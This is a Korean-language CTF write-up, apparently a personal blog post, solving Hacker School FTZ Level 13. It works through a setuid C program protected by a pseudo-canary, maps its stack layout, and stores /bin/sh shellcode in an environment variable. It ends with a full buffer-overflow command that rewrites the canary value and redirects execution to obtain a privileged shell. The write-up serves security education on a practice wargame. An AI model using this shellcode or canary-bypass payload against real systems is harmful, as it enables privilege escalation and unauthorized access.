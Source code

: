 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 13"
description: "Do you know the canary?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level13/1.jpg" | relative_url }}' alt='relative'>  

## 1) level13/have no clue 입력해 로그인  
 
<img data-action="zoom" src='{{ "assets/ftz/level13/2.png" | relative_url }}' alt='relative'>  

``` c
#include <stdlib.h>

main(int argc, char *argv[])
{
    long i=0x1234567;
    char buf[1024];

    setreuid( 3094, 3094 );
    if(argc > 1)
       strcpy(buf,argv[1]);

    if(i != 0x1234567) {
       printf(" Warnning: Buffer Overflow !!! \n");
       kill(0,11);
    }
}
```

코드를 살펴보니 유사 카나리 기법이 적용된 것 같습니다.  
buf 배열을 NOP으로만 채우면 i값을 비교하는 if 문에 의해 프로그램이 종료될 것입니다.  

그럼 해당 프로그램의 스택 구조를 살펴보겠습니다.  

## 2) 스택의 구조 살펴보기  

<img data-action="zoom" src='{{ "assets/ftz/level13/3.png" | relative_url }}' alt='relative'>  

tmp 디렉토리로 이동하여 hint 코드를 복사해 프로그램을 하나 만들어줍니다.  

<img data-action="zoom" src='{{ "assets/ftz/level13/4.png" | relative_url }}' alt='relative'>  

위 그림의 어셈블리어 코드를 살펴보면 buf 배열의 위치는 $ebp에서 1048 byte 떨어진 위치에 있습니다.  

그리고 $ebp-12 주소에 0x1234567 값이 저장되어 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level13/5.png" | relative_url }}' alt='relative'>  

스택을 도식화하면 위의 그림과 같습니다.  

## 3) 환경 변수에 쉘코드 저장하기  

환경 변수에 쉘코드를 저장하고 해당 환경 변수의 주소를 구하는 방법은 아래와 같습니다.  
환경 변수에 대한 내용과 쉘코드를 환경 변수에 저장하는 이유를 확인하기 위해 <a href="https://hsong2.github.io/ftz/2021/05/31/Hacker-School-FTZ-Level-12.html#env">level12</a> 내용을 확인해주세요.  

<img data-action="zoom" src='{{ "assets/ftz/level13/6.png" | relative_url }}' alt='relative'>  

``` bash
export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

## 4) BOF 수행하기  

앞선 문제들 같은 경우엔 buf 배열 + dummy + SFP 부분은 모두 NOP으로만 채웠겠지만  
dummy 부분에 BOF를 탐지하는 유사 카나리 기법이 적용되어 있기 때문에 이 부분을 우회하도록 하겠습니다.  

위의 스택의 구조를 도식화한 그림을 보면 buf 배열(1024 byte) + dummy(12 byte) + "0x1234567" + dummy(8 byte) + SFP + RET로 스택이 구성되어 있습니다.  
따라서 "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\[EGG 환경 변수 주소\]"를 입력하면 됩니다.  

위에서 EGG 환경 변수 주소를 구했기 때문에 바로 프로그램에 BOF를 시도하겠습니다.  

``` bash
./attackme `python -c 'print "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\x8d\xfc\xff\xbf"'`
```

<img data-action="zoom" src='{{ "assets/ftz/level13/7.png" | relative_url }}' alt='relative'>  
